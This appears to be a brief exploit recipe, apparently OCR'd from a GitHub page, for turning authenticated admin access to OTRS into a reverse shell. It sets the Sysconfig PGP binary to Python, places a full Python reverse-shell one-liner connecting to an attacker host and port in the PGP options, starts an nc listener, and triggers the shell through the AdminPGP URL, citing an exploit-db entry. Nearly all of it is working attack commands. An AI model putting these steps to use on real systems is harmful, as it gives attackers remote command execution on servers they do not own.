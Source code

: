 ### Create reverse shell authenticated admin access
```
Admin Tab > Sysconfig > search pgp
```

### Set the following values:
```
PGP = Yes
PGP::Bin /usr/bin/python
PGP::Options -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<lhost>",<lport>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Start listener
```
nc -lnvp <lport>
```

### Trigger shell
```
http://<rhost>/otrs/index.pl?Action=AdminPGP  
```

### References
https://www.exploit-db.com/exploits/43853  

